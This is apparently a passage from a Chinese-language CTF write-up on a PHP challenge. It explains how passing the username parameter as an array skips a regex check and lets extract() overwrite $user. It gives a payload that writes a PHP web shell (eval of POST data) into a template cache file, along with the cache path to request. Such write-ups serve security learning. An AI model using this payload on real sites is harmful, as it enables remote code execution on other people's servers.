 ```php
		}
		return $templateContent;
	}

}
```

因为$username只能用数字字母了，所以 sql 注入的可能性就很小了。

但是往下看`templateUtil::render('index',\$user);`

如果我们能够进入这个里面，并且使得$user可控，就和前面的写入cache差不多了.

我们看到 `$user`是正则匹配以后赋的值，**只要不进那个 if** 是不是我们就可以通过变量覆盖给 user 赋值了。

那么怎么跳过`$user=db::select_one_array($sql);`可以想到给 username **传数组**的话，就饶过了正则表达式。

payload

```
?action=check&username[]=1&password=123&user[username]=A--><?PHP eval($_POST[1]);?><!--B
```

然后访问

`/cache/6a992d5529f459a44fee58c733255e86.PHP`

- `extract`覆盖`$user`的值，绕过注释，并且`$user`必须是个数组(参数限制)

<img src=".\图片\Snipaste_2023-08-13_10-05-49.png" alt="Snipaste_2023-08-13_10-05-49" style="zoom:67%;" />
